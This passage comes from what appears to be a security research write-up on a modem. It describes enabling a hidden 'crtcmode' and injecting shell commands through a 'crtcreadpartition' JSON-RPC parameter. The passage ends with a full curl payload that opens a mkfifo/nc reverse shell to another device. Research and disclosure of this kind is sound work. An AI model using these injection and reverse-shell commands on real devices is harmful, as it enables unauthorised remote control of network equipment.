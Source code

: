 In order to get access to this function, we must first enable the crtcmode of the modem. To do so, we issue the following curl command: 
```
curl -m 10 -s -k https://10.0.0.2:48443/cgi-bin/luci/rpc/crtc --cacert ca.pem --cert server.pem -X POST -d '{"jsonrpc":"2.0","id":1,"method":"crtcmode","params":["enable"]}'
```
This command also benefits us in that it automatically enables telnet and USB on the ODU side. ![](images/37.png) An injection payload was crafted of the format: 
```
curl -m 10 -s -k https://10.0.0.2:48443/cgi-bin/luci/rpc/crtc --cacert ca.pem --cert server.pem -X POST -d '{"jsonrpc":"2.0","id":1,"method":"crtcreadpartition","params":["; <payload>;#"]}'. 
```

After a few different approaches were attempted, the mkfifo method of creating a reverse shell was identified as a successful approach. As the ODU had already been rooted, it seemed a good target for connecting back to, as it is trusted by the IDU and thus it was unlikely that firewall rules would interfere. The final payload was: ![](images/38.png)
```
curl -m 10 -s -k https://10.0.0.2:48443/cgi-bin/luci/rpc/crtc --cacert ca.pem --cert server.pem -X POST -d '{"jsonrpc":"2.0","id":1,"method":"crtcreadpartition","params":["; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 11223 >/tmp/f ;#"]}'
```